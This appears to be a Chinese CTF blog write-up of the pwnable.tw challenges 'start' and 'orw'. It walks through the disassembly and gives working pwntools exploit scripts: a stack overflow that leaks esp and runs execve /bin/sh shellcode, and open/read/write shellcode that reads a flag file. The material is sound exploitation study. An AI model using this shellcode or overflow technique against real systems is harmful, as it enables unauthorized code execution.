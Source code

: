 ```yaml
---
title: pwnable尝试
author: ch4ser
typora-root-url: ../
date: 2022-01-27 17:48:33
categories:
  - CTF
---
```


尝试学pwn,放弃学pwn

<!--more-->

## start

下载, 反编译获得如下代码

```
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    ':FTC'
.text:08048073                 push    ' eht'
.text:08048078                 push    ' tra'
.text:0804807D                 push    'ts s'
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch ; '<'
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
.text:0804809C _start          endp ; sp-analysis failed
```

1. esp压栈, 返回地址压栈
2. 清空了eax, ebx, ecx, edx
3. 四次push压入字符串 Let’s start the CTF :
4. 将栈顶地址作为参数移到ecx中
5. 将20移到dl (edx的低八位)中, 20 就是上面字符串的长度
6. sys_write将要向stdout写入, 所以将1移动到bl (ebx的低8位)中
7. 因为要调用的系统调用为sys_write, 所以将其系统呼叫号也就是4移动到al (eax的低八位)中
8. 使用 int 80h 来调用中断, 相当于call, 参数为前面的那些, 至此标准输出中写入了字符串
9. ebx置0, 表示从标准输入中读取
10. 将60传入edx, 表示读取60个字节 (注意这些字节会覆盖原先栈中的字符串)
11. 系统呼叫号置3, 表示使用sys_read调用
12. int 80h来调用中断, 将内容读入ecx中的地址也就是栈顶中
13. 将esp增加20字节
14. 弹栈并执行弹出地址所指向的指令

攻击思路为:

- 程序向栈中写入数据, 然后再将esp增加20然后弹栈执行, 但是我们读取的数据最大有60字节, 那么可以读入超过20字节的数据, 并控制弹栈执行的指令. 如果让弹出执行的指令为sys_write部分的代码, 那么就会泄漏最开始压栈的esp地址
- 泄漏esp地址之后, 进行第二次攻击, 同样是弹出执行sys_write, 接着代码继续执行到sys_read, 这里让程序读入20个垃圾字符, 接下来程序会将esp增加20, 然后再次弹栈执行, 这次弹栈出来要执行的指令的地址 应该是shellcode的地址, 那么shellcode的地址应该是多少呢? 应该是最开始的esp地址加上20, 这里我第一次看的时候想了好久, 可以看这位师傅的图帮助理解https://xuanxuanblingbling.github.io/ctf/pwn/2019/08/30/start/

exp如下

```
from pwn import *
p = remote('chall.pwnable.tw', 10000)
# p = process('./start')
shellcode= '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

pad = 'a'*20
# pad = pad.decode('utf8')
addr = 0x8048087
payload1 = pad + p32(addr).decode('unicode_escape')
p.send(payload1)
p.recvuntil(":")
oldesp = u32(p.recv(4))
shellcode_addr = oldesp + 20
payload2 = pad + p32(shellcode_addr).decode('unicode_escape') + shellcode
p.send(payload2)
p.interactive()
```

## orw

逆向得到源代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

orw_seccomp 说是限制执行的函数的, 题目说只能执行sys_open sys_read sys_write. 然后接下来程序读取了shellcode并且执行. 所以向程序发送asm代码, 先对flag文件使用sys_open, 然后用sys_read读取内容, 最后使用sys_write 将内容写到标准输出中.

```python
from pwn import *
context(arch='i386',os='linux')
#context(log_level='debug')
io = remote('chall.pwnable.tw',10001)
open_code = '''
mov eax, 0x5; 
push 0x00006761; 
push 0x6c662f77; 
push 0x726f2f65; 
push 0x6d6f682f; 
mov ebx,esp; 
xor ecx,ecx; 
xor edx,edx; 
int 0x80;
'''
read_code = '''
mov ecx, ebx; 
mov ebx, eax;
mov eax, 0x3; 
mov edx, 0x60; 
int 0x80;
'''
write_code = '''
mov eax, 0x4; 
mov ebx, 0x1; 
int 0x80;
'''
payload = asm(open_code+read_code+write_code)
io.recvuntil(':')
io.send(payload)
io.interactive()
```

